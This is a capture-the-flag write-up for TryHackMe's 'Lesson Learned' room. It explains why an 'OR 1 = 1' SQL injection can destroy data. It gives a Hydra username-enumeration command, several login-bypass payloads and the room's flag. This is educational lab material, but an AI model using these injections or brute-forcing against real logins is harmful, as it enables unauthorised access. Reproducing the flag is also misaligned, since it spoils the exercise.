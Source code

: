 # Lesson Learned?

![Lesson Learned?](./Assets/lesson-learned.png "Lesson Learned Room Avatar")

## Summary

[Lesson Learned](https://tryhackme.com/room/lessonlearned "Lesson Learned CTF on TryHackMe") is a beginner-friendly CTF hosted on [TryHackMe](https://tryhackme.com/ "TryHackMe Website") and created by [Tib3rius](https://tryhackme.com/p/Tib3rius "TryHackMe user profile for Tib3rius").

This CTF requires basic knowledge of:

* Safer alternatives to common ```SQL Injections```.

* Bruteforcing usernames with tools like ```Hydra```.

---

## Contents

* [Getting Started](#getting-started "Jump To Section")

* [Getting Kicked Out](#getting-kicked-out "Jump To Section")

* [The Right Way](#the-right-way "Jump To Section")

---

## Getting Started

For this room we're given the following description:

> This is a relatively easy machine that tries to teach you a lesson, but perhaps you've already learned the lesson? Let's find out.
>
> Treat this box as if it were a real target and not a CTF.
>
> Get past the login screen and you will find the flag. There are no rabbit holes, no hidden files, just a login page and a flag. Good luck!

The above description let's us know that this CTF will be a straight-forward login page bypass. There will be no need for a network scan or directory enumeration, so we can skip the usual tools like NMAP and GoBuster and move straight to website.

[Back To Top](#lesson-learned "Jump To Top")

---

## Getting Kicked Out

Once we navigate to the URL for the website we'll see a simple login page. Reviewing the source code reveals nothing, just bare-bones HTML and CSS.

Our first instinct may be to perform a ```SQL Injection``` like ```admin' OR 1 = 1-- -```, but when thinking of performing a SQL Injection it is important to consider the context into which the injection is being placed. Is it a ```SELECT``` statement or a ```UPDATE``` statement? Into which part of the SQL query are we injecting into? Here we can guess that we're injecting into a ```SELECT``` query based on the fact that the login form will query the SQL database for our username. However, we don't know _exactly_ what the program does with our input, we can only guess. Say, for instance, that we wanted to inject ```admin' OR 1 = 1-- -``` into a ```SELECT``` statement. This would return every row. However, if the same injection is inserted into a ```DELETE``` statement, every row would be deleted. This is what makes SQL injections so dangerous.

We can test out the wrong way to inject into the database with the following injection:

* Username: ```test' OR 1 = 1-- -``` (MySQL comments need to start with a space so the dash following the space is used to ensure that the space before is not stripped, you can use anything though. For instance, ```test' OR 1 = 1-- x```, is also a valid injection.)

* Password: ```anything```

After our SQL injection, we'll get the following message:

![CTF Error Message](./Assets/error-message.png "CTF Error Message")

The flag has been destroyed due to our injection making it's way to a ```DELETE``` statement. We'll need to restart the room and try a "less destructive" method.

[Back To Top](#lesson-learned "Jump To Top")

---

## The Right Way

![Tweet from Tib3rius on safer alternatives to 1 = 1 injection](./Assets/tib3rius-tweet-on-sql-injection.png "Tweet from Tib3rius on safer alternatives to 1 = 1 injection")

Instead of trying to return every row with ```test' OR 1 = 1-- -``` and hoping we're logged into the account of the user in the first row we can use a SQL injection like ```test'; -- -``` or ```test' AND 1 = 1 -- -```. The problem with this safer alternative is that we need a valid username. So our next step is to enumerate possible usernames using a tool like [Hydra](https://www.kali.org/tools/hydra/ "Kali Linux Documentation For Hydra").

Before we can craft the Hydra command we'll need the following:

* [Username Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt "Daniel Miessler's Usernames Wordlist On GitHub")

* Name of the page the form is submitted to.

* Form method.

* Input names for username/password.

* Error message that appears when a username AND password are incorrect.

All of these, with the exception of the wordlist and error message, can be found by viewing the forms source code.

```html
<div id="login">
    <h1>Login</h1>
    <form action="/" method="POST">
        <label for="username">Username</label>
        <input id="username" type="text" name="username">
        <label for="password">Password</label>
        <input id="password" type="password" name="password">
        <input type="submit" value="Login">
    </form>
</div>
```

* Form Submission Page - ```/``` (Or ```index.php```).

* Method - ```POST```.

* Input Names - Password: ```password```, Username: ```username```.

Now we can grab the error message by attempting to log in with dummy credentials such as ```test:test```.

*  Error Message - ```Invalid username and password.```

Now that we have everything we can craft the Hydra command.

```hydra -L /path/to/wordlist -p INSERT_ANY_PASSWORD_HERE INSERT_IP_ADDRESS_HERE -s 80 http-post-form "/index.php:username=^USER^&password=^PASS^":"Invalid username and password."```

After Hydra has finished running we should get the following valid usernames:

* ```arnold```

* ```karen```

* ```kelly```

* ```marcus```

* ```martin```

* ```naomi```

* ```patrick```

* ```sophia```

* ```stuart```

* ```veronica```

Now that we have valid usernames we can bypass the login with either of the following payloads:

* ```veronica' AND 1 = 1-- -```

* ```naomi';-- -```

And for some reason this also logs us in (with *ANY* username):

* ```test' UNION SELECT null-- -```

After bypassing the login page we'll be greeted with the following flag and message:

```THM{aab02c6b76bb752456a54c80c2d6fb1e}```

![Success Page](./Assets/success.png "Success Page")

[Back To Top](#lesson-learned "Jump To Top")
